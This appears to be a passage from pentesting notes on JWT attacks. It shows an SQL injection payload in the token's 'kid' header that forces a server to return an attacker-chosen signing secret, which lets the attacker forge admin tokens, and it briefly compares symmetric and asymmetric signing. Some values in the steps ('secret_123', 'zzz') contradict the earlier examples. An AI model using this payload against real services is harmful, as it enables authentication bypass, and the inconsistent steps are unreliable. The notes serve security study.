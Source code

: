 **Normal SQL Query:**

```sql
SELECT secret FROM jwt_secrets WHERE key = 'key1';
```

**Exploited SQL Injection:**

```sql
SELECT secret FROM jwt_secrets WHERE key = 'any_key_does_not_exist' UNION SELECT 'my_secret';
```

**Exploitation Steps:**

1. The attacker identifies an SQL injection vulnerability in the "kid" parameter.
2. Instead of a legitimate "kid" value, the attacker injects malicious input

```json
{
    "typ": "JWT",
    "alg": "HS256",
    "kid": "key1' UNION SELECT 'my_secret"
}

{
    "user": "admin"
}
```

1. The attacker sign a new JWT with the same value as the secret in the SQL query
2. When the attacker sends the tempered JWT to the server the SQL query will result <mark style="color:red;">**`kid=secret_123`**</mark> as `zzz` is not exist
3. As the kid value matches the key that the token signed with the attacker will be able to send a valid token

### Symmetric vs asymmetric algorithms 

| Algorithm        | Key used to sign | Key used to verify |
| ---------------- | ---------------- | ------------------ |
| Asymmetric (RSA) | Private key      | Public key         |
| Symmetric (HMAC) | Shared secret    | Shared secret      |

JWTs can be signed using a range of different algorithms. Some of these, such as <mark style="color:red;">**HS256 (HMAC + SHA-256**</mark>) use a "**symmetric**" key. This means that the server uses a single key to both sign and verify the token. This needs to be kept secret, just like a password.

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>
